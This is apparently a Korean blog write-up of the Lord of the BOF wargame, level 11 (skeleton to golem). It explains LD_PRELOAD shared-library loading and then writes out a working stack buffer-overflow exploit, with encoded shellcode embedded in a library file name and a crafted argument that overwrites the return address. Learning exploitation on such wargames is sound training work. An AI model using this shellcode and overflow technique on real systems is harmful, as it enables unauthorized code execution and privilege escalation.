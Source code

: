 ```yaml
---
title:  "[LOB] level 11: skeleton >> golem "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-24 07:41:42

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 11

**skeleton / shellcoder**

golem.c 코드 읽기  
![image](https://user-images.githubusercontent.com/69203345/147309758-5e6dfddd-50fb-4876-8a1d-e8b261f2ad94.png)

1. argv는 2개 이상 입력  
2. argv[1][47]번째 바이트는 '\xbf'여야 함  
3. buffer이후 stack 모든영역 사용불가

이번 문제는 공유 라이브러리를 알고있어야 한다  
공유라이브러리는 프로그램이 시작되면 메모리에 로드되는 라이브러리로, 유닉스/리눅스의 경우에는 LD_PRELOAD환경변수에 지정된 공유 라이브러리가 먼저 로드된다. 
다른 라이브러리의 함수와 LD_PRELOAD에 지정된 라이브러리 함수가 서로 이름이 똑같을 경우 라이브러리 적재 순서에 의해 LD_PRELOAD가 실행된다  
LD_PRELOAD를 이용하는 이유는 스택상에 LD_PRELOAD의 파일명이 올라오고, 저번문제에서 파일 이름이 마지막 메모리에 기록 됐듯이, LD_PRELOAD도 불려오게 되면 스택에 기록이 된다

낮은주소

code  
data  
bss  
heap  
공유라이브러리  
buffer  
sfp  
ret  
argc  
argv  
env

높은주소

LD_PRELOAD 환경변수 등록방법:  
빈 파일을 만든후 shellcode로 컴파일한다  
- fPIC 옵션: Position-Independent Code의 약자, CPU에 관계없이 동작하도록 컴파일한다
- shared 옵션: 우선 공유 라이브러이와 링크하고, 공유 라이브러리가 없으면 정적 라이브러리와 링크한다 
- 반드시 절대 경로로 파일명을 지정해야 오류가 발생하지 않는다

>gcc -fPIC -shared a.c -o \`python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`

![image](https://user-images.githubusercontent.com/69203345/147317124-1645b09f-a035-4f4f-9614-9045e58c47f4.png)

이제 환경변수 LD_PRELOAD 에 등록해준다  
>export LD_PRELOAD=/tmp/\`python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`

이제 gdb로 golem을 확인하면 LD_PRELOAD에 의해 공유라이브러리 영역에 쉘코드가 들어가 있을 것이다
gdb로 위치를 확인해보자  
![image](https://user-images.githubusercontent.com/69203345/147319328-6e99d8b5-34c0-42a6-b0f8-eaa746c452b4.png)
![image](https://user-images.githubusercontent.com/69203345/147330321-af0f1a83-2ef0-4b72-8f0a-f4e7f4363de3.png)
0xbffff5dc를 리턴 주소로하겠다

>./golem \`python -c 'print "A"*44+"\xdc\xf5\xff\xbf"'`

![image](https://user-images.githubusercontent.com/69203345/147330394-80a1ed09-b81d-4dd2-9478-976580e9fcde.png)

---
x/12x $esp등으로 esp의 위치를 먼저 알고가도 찾는데 편하겠다( 공유라이브러리는 esp보다 작은 주소에 위치할것이기 때문)